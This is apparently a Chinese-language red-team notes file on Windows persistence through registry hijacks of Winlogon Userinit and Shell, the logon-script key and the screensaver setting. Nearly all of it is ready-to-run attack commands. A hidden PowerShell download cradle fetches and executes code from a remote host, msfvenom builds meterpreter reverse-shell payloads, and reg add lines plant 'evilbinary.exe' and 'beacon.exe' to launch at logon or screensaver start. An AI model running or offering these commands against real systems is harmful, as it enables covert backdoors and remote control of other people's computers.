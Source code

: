 #### 登录初始化
	计算机\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon下添加Userinit值
	>Powershell.exe Set-ItemProperty "HKLM:\SOFTWARE\Microsoft\WINDOWS NT\CurrentVersion\Winlogon" -name Userinit -value "C:\Windows\system32\userinit.exe,c:\muma.exe"
	计算机\HKEY_CURRENT_USER\Environment
	创建键值UserInitMprLogonScript值为c:\muma.exe
	&
	Powershell实现：
	>Set-ExecutionPolicy RemoteSigned 
	保存ps1执行
	Set-ItemProperty "HKLM:\SOFTWARE\Microsoft\WINDOWS NT\CurrentVersion\Winlogon" -name Userinit -value "C:\Windows\system32\userinit.exe,powershell.exe -nop -w hidden -c $w=new-object net.webclient;$w.proxy=[Net.WebRequest]::GetSystemWebProxy();$w.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $w.downloadstring('http://192.168.2.11:8080/kaMhC1');"
	# powershell反弹shell的payload参照msf中的web_delivery模块

	>msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe > evilbinary.exe
	>msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f dll > evilbinary.dll

	>reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /d "Userinit.exe, evilbinary.exe" /f
	>reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Shell /d "explorer.exe, evilbinary.exe" /f
	>Set-ItemProperty "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Userinit" "Userinit.exe, evilbinary.exe" -Force
	>Set-ItemProperty "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Shell" "explorer.exe, evilbinary.exe" -Force
#### 屏幕保护程序
	计算机\HKEY_CURRENT_USER\Control Panel\Desktop
	SCRNSAVE.EXE - 默认屏幕保护程序，改为恶意程序(设置备份)
	ScreenSaveActive - 1表示屏幕保护是启动状态，0表示表示屏幕保护是关闭状态
	ScreenSaverTimeout - 指定屏幕保护程序启动前系统的空闲事件，单位为秒，默认为900（15分钟）

	>reg add "hkcu\control panel\desktop" /v SCRNSAVE.EXE /d C:\Users\hunter\Desktop\beacon.exe /f
	>reg add "hkcu\control panel\desktop" /v ScreenSaveActive /d 1 /f
	>reg add "hkcu\control panel\desktop" /v ScreenSaverIsSecure /d 0 /f
	>reg add "hkcu\control panel\desktop" /v ScreenSaveTimeOut /d 60 /f